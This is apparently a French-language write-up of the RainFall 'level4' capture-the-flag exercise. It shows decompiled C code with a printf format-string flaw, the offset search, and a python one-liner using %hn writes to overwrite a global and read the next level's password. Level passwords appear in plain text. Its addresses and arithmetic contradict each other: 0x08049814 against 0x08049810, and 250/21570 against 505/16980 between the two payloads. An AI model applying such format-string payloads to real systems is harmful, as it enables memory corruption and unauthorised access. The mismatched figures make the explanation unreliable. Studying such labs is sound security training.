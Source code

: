 # level4 :

pass : `b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa`

## Source :

```c
#include <stdio.h>

int m = 0;  // 0x08049814

void	p(char *str) {  // 0x08048444
	printf(str);
}

void	n() {  // 0x08048457
	char buf[520];  // ebp-0x208 | esp+0x10

	fgets(buf, 512, stdin);  // 0x200
	p(buf);
	if (m == 0x1025544) {
	system("/bin/cat /home/user/level5/.pass");
	}
}

void	main() {  // 0x080484a7
	n();
}
```

## Recherche :

> On va vouloir remplacer la valeur de `m` pour être égale à `0x1025544`.



Comme pour le level3, on cheche l'offset qui est cette fois à `12`

```
kali@kali:~/rainfall$ ./script.sh ./level4
Index 0
Index 1
Index 2
Index 3
Index 4
Index 5
Index 6
Index 7
Index 8
Index 9
Index 10
Index 11
Index 12
AAAA41414141
```

Cette fois on veut :

- écrire à l'addresse `0x08049810`
- l'offset pour y écrire est `12`
- la valeur que l'on veut mettre est `0x1025544`

Dans l'execice précédent, on pouvait écrire les `0x40` caractères, mais maintenant c'est beaucoup plus. On va donc utiliser

### Eploiter avec les formats modifiers `%hn` et `%<size>x`

Pour mettre cette valeur, on utilisera `%hn` qui permet d'écrire sur `2` octets.

Donc `0x5544` à l'adresse `0x08049810` et `0x0102` à l'adresse `0x08049812`.
Comme `0x5544` > `0x0102`, on les écrira dans l'ordre inverse.

- `0x0102` - `8 bits d'adresses` = `250`
- `0x5544` - `0x0102` = `21570`

On a doit dont décalé de 513 - 8 = 505 pour le second, puis de 17493 - 513 = 16980 pour le premier.

`./level4 < <(python -c 'print "\x12\x98\x04\x08\x10\x98\x04\x08%250x%12$hn%16980x%13$hn"')`

## Exploit :

```
level4@RainFall:~$ (python -c 'print "\x12\x98\x04\x08\x10\x98\x04\x08%250x%12$hn%21570x%13$hn"'; cat) | ./level4

.
.
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

----

## Documentation :
* [Une simple Exploitation de vulnérabilité Format String](https://www.exploit-db.com/papers/23985)
